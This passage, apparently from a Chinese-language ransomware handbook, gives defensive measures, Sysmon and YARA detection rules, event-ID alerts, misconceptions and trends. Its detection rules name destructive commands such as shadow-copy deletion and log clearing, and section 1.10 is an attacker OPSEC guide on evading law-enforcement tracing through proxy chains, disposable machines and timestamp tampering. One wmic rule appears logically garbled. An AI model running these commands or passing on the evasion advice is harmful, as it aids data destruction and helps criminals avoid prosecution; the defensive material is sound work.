| 初始入侵 | 钓鱼邮件分析、可疑登录地理异常 | MFA强制、邮件网关过滤、堡垒机+跳板机 | Proofpoint、Microsoft Defender for Office 365、Duo Security |
| 立足点巩固 | 可疑进程创建、非正常时间活动 | 应用程序白名单、EDR端点检测（Sysmon日志） | CrowdStrike、SentinelOne、Microsoft Defender for Endpoint |
| 数据窃取 | 大量外传流量告警、异常DNS请求 | DLP策略、数据分类、云存储访问审计 | Varonis、Darktrace、Cloudflare DLP |
| 勒索软件部署 | 大规模文件写入操作、vssadmin/wevtutil执行 | 关键文件保护（FSA）、备份不可变存储+离线 | Microsoft IR、VMware Site Recovery、Rubrik/Cohesity |
| 反馈与恢复 | 勒索信警告、文件变更检测 | 立即隔离受损主机、启动应急响应流程 | SIRT标准流程、不可变备份、Cyber Incident Response Plan |

### 关键防御原则

1. **不可变备份（Immutable Backup）**：备份存储支持一次写入多次读取（WORM）模式，攻击者无法加密或删除备份。推荐使用Air-gapped离线备份+不可变云备份的双重策略
2. **最小的曝光面**：关闭所有不必要的外部端口，RDP和VPN强制使用MFA
3. **零信任网络架构**：不信任任何内部网络，所有访问都需验证
4. **权限最小化**：域管理员账号不应在日常工作中使用，实施Just-In-Time（JIT）特权访问
5. **端点检测与响应（EDR）**：全覆盖所有终端，开启实时检测，定期进行红队演练验证检测有效性
6. **网络分段**：将关键系统（域控制器、备份服务器、财务系统）隔离在独立VLAN中，限制横向移动路径
7. **安全意识培训**：虽然培训不能根除钓鱼，但能显著降低成功率。结合定期钓鱼模拟测试效果更佳

---

## 1.8 检测规则与IOC示例

### Sysmon检测规则

```xml
<!-- 检测vssadmin删除卷影副本（勒索软件典型行为） -->
<RuleGroup name="" groupRelation="or">
  <ProcessCreate onmatch="include">
    <CommandLine condition="contains">vssadmin delete shadows</CommandLine>
  </ProcessCreate>
</RuleGroup>

<!-- 检测wevtutil清除日志 -->
<RuleGroup name="" groupRelation="or">
  <ProcessCreate onmatch="include">
    <CommandLine condition="contains">wevtutil cl</CommandLine>
  </ProcessCreate>
</RuleGroup>

<!-- 检测wmic远程进程创建（横向移动） -->
<RuleGroup name="" groupRelation="or">
  <NetworkConnect onmatch="exclude">
    <DestinationPort condition="is">445</DestinationPort>
    <DestinationPort condition="is">135</DestinationPort>
    <Image condition="image">wmiprvse.exe</Image>
  </NetworkConnect>
</RuleGroup>

<!-- 检测PowerShell编码命令（常用混淆手法） -->
<RuleGroup name="" groupRelation="or">
  <ProcessCreate onmatch="include">
    <CommandLine condition="contains">powershell</CommandLine>
    <CommandLine condition="contains">-enc</CommandLine>
  </ProcessCreate>
</RuleGroup>

<!-- 检测可疑的LSASS进程访问（Mimikatz等凭证窃取工具） -->
<RuleGroup name="" groupRelation="or">
  <ProcessAccess onmatch="include">
    <TargetImage condition="is">C:\Windows\System32\lsass.exe</TargetImage>
    <GrantedAccess condition="is">0x1010</GrantedAccess>
  </ProcessAccess>
</RuleGroup>
```

### Windows事件ID告警规则

| 事件ID | 描述 | 关联阶段 | 告警阈值 |
|-------|------|---------|---------|
| 4625 | 登录失败（大量失败可能为暴力破解） | 初始入侵 | 10次/分钟 |
| 4624 + 登录类型3 | 网络登录（横向移动信号） | 横向移动 | 异常数量的新网络登录 |
| 4672 | 分配特殊权限（权限提升可能） | 权限提升 | 非管理员账号获取特殊权限 |
| 1102 | 安全日志被清除 | 防御规避 | 立即告警 |
| 5140 | 网络共享对象已访问 | 数据窃取 | 大量文件访问 |
| 7036 | 服务状态变更 | 影响/防御规避 | 安全服务意外停止 |
| 4663 | 对象访问尝试 | 数据窃取/加密 | 大规模文件修改操作 |
| 4688 + 命令行审计 | 进程创建 | 全阶段 | 可疑命令行模式匹配 |

### 文件IOC检测

```yaml
# 勒索软件典型文件行为YARA规则示例
rule Ransomware_Behavior_Detect {
  meta:
    description = "Detect ransomware-like file operations"
    author = "Security Team"
  strings:
    $vssadmin = "vssadmin.exe" nocase
    $shadows = "delete shadows" nocase
    $bcdedit = "bcdedit.exe" nocase
    $recovery = "/set {default} recoveryenabled" nocase
    $wevtutil = "wevtutil.exe" nocase
    $wmic = "wmic.exe"
  condition:
    3 of them
}

rule Ransomware_Note_Detect {
  meta:
    description = "Detect common ransomware note filenames"
  strings:
    $note1 = "DECRYPT_INFORMATION" nocase
    $note2 = "RECOVER-FILES" nocase
    $note3 = "HOW_TO_DECRYPT" nocase
    $note4 = "README_RESTORE" nocase
    $note5 = "restore_files_info" nocase
    $note6 = "RECOVER_YOUR_DATA" nocase
  condition:
    any of them
}
```

### YARA规则：勒索软件家族特征检测

```yaml
rule LockBit_3_0_Detect {
  meta:
    description = "Detect LockBit 3.0 ransomware"
    author = "Security Team"
    date = "2023-01-01"
  strings:
    $ext1 = ".lockbit" nocase
    $ext2 = ".abcd" nocase
    $note1 = "LockBit_Ransomware.hta" nocase
    $note2 = "Restore-My-Files.txt" nocase
    $api1 = "GetVolumeInformationW"
    $api2 = "CryptGenRandom"
  condition:
    uint16(0) == 0x5A4D and
    filesize < 500KB and
    2 of ($ext*, $note*) and
    all of ($api*)
}
```

---

## 1.9 常见误区与纠正

### 误区1：支付赎金就能恢复数据

**事实：** 支付赎金不代表100%恢复。据Coveware统计，约**8%-14%**的受害者支付赎金后无法完整恢复数据，原因是解密工具失效、加密算法缺陷或者攻击者根本无意提供解密工具。

### 误区2：只有中小企业才被勒索攻击

**事实：** 2024年针对NVIDIA、台积电、波音等大型企业的勒索攻击表明，大型企业同样是高价值目标。事实上，大型企业的支付意愿和支付能力更强。

### 误区3：有备份就不怕勒索软件

**事实：** 双重勒索使备份无法解决数据泄露问题。此外，攻击者会主动寻找并加密备份系统。如果备份与生产环境在同一网络（无网络隔离），备份同样会被加密。据Sophos 2024报告，**94%**的勒索软件攻击者会主动尝试加密或破坏备份。

### 误区4：Mac/Linux不受勒索软件影响

**事实：** LockBit、BlackCat等现代勒索软件已经支持跨平台加密（Windows、Linux、macOS、ESXi虚拟机）。2023年针对VMware ESXi的勒索攻击增长了**207%**。

### 误区5：教育用户就能防钓鱼

**事实：** 安全培训能降低钓鱼成功率，但无法根除。据Verizon DBIR 2024，经过培训的用户仍然有**约11%**的概率点击钓鱼链接，在高度定制化的鱼叉钓鱼攻击面前识别率更低。

### 误区6：使用强密码就能防止RDP入侵

**事实：** 强密码是必要的但非充分条件。攻击者可能通过Pass-the-Hash、凭证复用、已泄露的凭证数据库等方式绕过密码认证。RDP强制启用NLA（网络级认证）+MFA才是有效防护。

---

## 1.10 攻击者OPSEC：如何避免被追踪

攻击者在执行勒索攻击时，必须采取严格的OPSEC（操作安全）措施，否则将面临执法机构的追踪和起诉。

### 基础OPSEC措施

| 措施 | 具体操作 | 重要性 |
|------|---------|--------|
| 网络匿名化 | Tor → 多级VPN → VPS跳板 | 极高 |
| 身份隔离 | 使用独立邮箱、手机号、化名 | 极高 |
| 金融隔离 | 加密货币钱包不与任何个人身份关联 | 极高 |
| 工具清理 | 攻击工具使用后立即擦除，不留痕迹 | 高 |
| 通信加密 | 所有通信使用端到端加密 | 高 |
| 时间管理 | 避免在本国工作时间操作（暴露时区） | 中 |

### 高级OPSEC技术

- **虚拟机隔离**：在VM中执行所有攻击操作，完成后销毁虚拟机
- **硬件级隔离**：使用专用设备（如Tails OS USB）进行攻击操作
- **多层代理链**：Tor + VPN + SSH隧道，确保即使一层被追踪也不暴露真实IP
- **无持久化**：不在攻击设备上存储任何长期数据
- **时间戳混淆**：修改文件时间戳，避免与攻击时间线关联

### 被追踪的常见原因

1. **VPN/代理泄漏**：代理配置错误导致真实IP泄漏
2. **加密货币追踪**：混币服务不完美，Chainalysis等公司可追踪资金流
3. **时区分析**：通过操作时间推断攻击者所在时区
4. **语言特征**：代码注释、论坛发帖中的语言暴露国籍
5. **行为模式**：独特的攻击手法与已知攻击者画像匹配
6. **内部泄露**：如同LockBit和Conti的内部文件泄露导致成员身份暴露

---

## 1.11 勒索软件的未来趋势

### 短期趋势（2025-2026）

- **AI辅助攻击**：生成式AI被用于撰写更逼真的钓鱼邮件、自动生成攻击脚本、分析加密的代码。GPT类模型已被用于编写混淆的PowerShell脚本和漏洞利用代码
- **云勒索**：不再加密本地文件，而是直接加密或锁定AWS S3/Azure Blob/Google Cloud Storage，勒索金额按企业云数据规模决定
- **RaaS 2.0**：平台化程度更高，提供自动化的攻击向导，进一步降低技术门槛
- **ESXi和容器攻击**：针对VMware vSphere和Kubernetes环境的加密工具日益成熟
- **勒索保险的博弈**：保险公司对赎金支付的条款越发严格，更多企业开始要求"不支付策略"，促使攻击者开发新的施压手段

### 中期趋势（2026-2028）

- **深度伪造（Deepfake）勒索**：结合AI生成的音视频伪造证据进行勒索
- **自动化攻击链**：从侦察到部署的全流程自动化，攻击时间从数周缩短到数小时
- **AI检测对抗**：攻击者使用GAN生成恶意代码变体，规避基于AI的检测系统
- **物联网（IoT）勒索**：针对智能工厂、智慧城市等IoT基础设施的勒索攻击增加

### 防御演进方向

- **AI驱动的威胁检测**：利用机器学习分析行为模式，提前发现异常
- **零信任架构普及**：不再信任任何内部网络，所有访问持续验证
- **勒索软件即保险**：更多企业购买网络安全保险，并将应急响应外包给专业公司
- **国际执法合作**：多国联合打击RaaS组织（如LockBit行动），但攻击者也在向监管薄弱的地区转移

---

## 参考来源

1. Verizon 2024 Data Breach Investigations Report (DBIR)
2. Microsoft Digital Defense Report 2024
3. Coveware Quarterly Ransomware Report - Q1 2024
4. Chainalysis 2024 Crypto Crime Report: Ransomware
5. MITRE ATT&CK Framework v14.1
6. Mandiant M-Trends 2024 Report
7. CrowdStrike 2024 Global Threat Report
8. FBI Internet Crime Complaint Center (IC3) 2024 Report
9. Dragos Ransomware Targeting Critical Infrastructure 2024
10. Unit 42 Ransomware Threat Report 2024
11. Sophos The State of Ransomware 2024
12. Recorded Future Ransomware and Extortion Report 2024
